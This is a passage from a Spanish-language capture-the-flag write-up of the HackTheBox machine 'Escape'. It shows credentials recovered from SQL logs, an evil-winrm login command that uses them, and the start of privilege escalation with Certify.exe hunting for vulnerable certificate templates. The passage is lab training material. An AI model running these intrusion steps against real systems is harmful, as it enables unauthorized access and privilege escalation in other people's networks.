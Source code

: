 ![](/assets/images/HTB/Escape-HackTheBox/10.webp)

Enumerando un poco encuentro el directorio donde se almacena toda la información relacionada con el servicio SQL y veo que hay una carpeta llamada Logs donde podría haber algo de interés, por lo que accedo al mismo y encuentro esta información.

![](/assets/images/HTB/Escape-HackTheBox/11.webp)

Ahí podemos ver credenciales del usuario `Ryan.Cooper:NuclearMosquito3`, por lo que trato de acceder con estas credenciales a la máquina a través de evil-winrm como anteriormente.

```bash
ruby evil-winrm.rb -i 10.10.11.202 -u Ryan.Cooper -p NuclearMosquito3
```

![](/assets/images/HTB/Escape-HackTheBox/12.webp)

# Escalada de Privilegios [#](privesc) {#privesc}

Ahora ya toca migrar al usuario administrador, es decir, toca escalar privilegios.

Para escalar privilegios subo el archivo Certify.exe ya compilado para buscar plantillas de certificados vulnerables.	

Lo lanzo con el siguiente comando y me arroja toda la información.

```ruby
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> ./certify.exe find /vulnerable

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

```